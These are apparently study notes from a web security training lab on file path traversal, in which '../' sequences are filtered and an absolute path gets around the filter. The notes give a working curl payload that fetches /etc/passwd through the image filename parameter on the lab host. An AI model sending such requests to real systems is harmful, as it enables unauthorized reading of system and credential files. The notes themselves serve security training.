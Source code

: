 # Lab: File path traversal, traversal sequences blocked with absolute path bypass

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

## LFI
* 這一題說會過濾 traversal 的部份，理論上就是 ../ 的部份，但是會視給的 filename 提供的目錄為 default 目錄
```
payload = curl https://ac9c1f6e1f675097c06abaee008a006c.web-security-academy.net/image\?filename\=/etc/passwd
```
